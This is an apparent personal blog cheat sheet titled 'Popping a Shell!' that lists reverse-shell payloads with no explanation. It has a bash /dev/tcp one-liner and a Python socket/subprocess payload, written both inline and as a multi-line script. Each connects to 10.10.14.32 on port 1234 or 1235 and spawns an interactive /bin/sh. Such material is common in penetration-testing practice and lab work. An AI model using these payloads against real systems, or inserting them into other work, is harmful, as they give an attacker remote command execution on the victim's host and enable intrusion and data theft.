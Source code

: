 ```yaml
---
title: "Popping a Shell!"
date: 2021-02-10T17:23:05+01:00
categories: ["hacking", "cheat-sheets"]
tags: []
---
```


A few ways to pop a shell...

`/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.32/1234 0>&1'`

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

```text
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.32",1235))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
